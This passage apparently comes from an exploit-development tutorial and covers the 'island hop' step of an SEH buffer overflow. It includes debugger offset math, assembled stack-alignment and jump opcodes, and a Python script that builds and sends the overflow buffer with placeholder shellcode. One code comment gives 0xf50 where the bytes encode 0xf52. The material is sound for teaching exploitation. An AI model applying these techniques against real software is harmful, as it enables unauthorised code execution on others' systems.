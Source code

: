 ```
01cac856  d34dc0d3 43434343 43434343 43434343
...       ...      ...      ...      ...
01cacaa6  43434343 43434343
0:012> ? 01cac856 - @esp
Evaluate expression: 3922 = 00000f52
```




## 7. Island Hop

As one of the options of moving EIP into the shellcode, align the stack (ESP) with the corresponding offset from (6):

```
$ msf-nasm_shell
nasm > add esp, 0xf52
00000000  81C4520F0000      add esp,0xf52  // Contains bad zero bytes
nasm > add sp, 0xf52
00000000  6681C4520F        add sp,0xf52
nasm > jmp esp
00000000  FFE4              jmp esp
```

Update your script with the disassembled align & jump instructions.

{% code title="sehof_island_hop.py" %}
```python
#!/usr/bin/env python3

size = 6000
shellcode_size = 600

shellcode  = LE(0xd34dc0d3)
shellcode += b'C' * (shellcode_size - len(shellcode))

exp  = LE(0x06eb9090)  # (NSEH) jmp +06
exp += LE(0x101576c0)  # (PPR) pop eax; pop ebx; ret
exp += b'\x90\x90'                # (NSEH) offset for the 'eb 06' part of the jmp instruction
exp += b'\x66\x81\xc4\x52\x0f'    # (Island Hop) add sp, 0xf50
exp += b'\xff\xe4'                # (Island Hop) jmp esp

filler = b'A' * (2499 - 4)
nop    = b'\x90' * (size - len(filler + exp + shellcode))

buf = filler + exp + shellcode + nop
print(f'buf({len(buf)}): filler({len(filler)}) -> exp({len(exp)}) -> shellcode({len(shellcode)}) -> nop({len(nop)})')

send(buf)
```
{% endcode %}
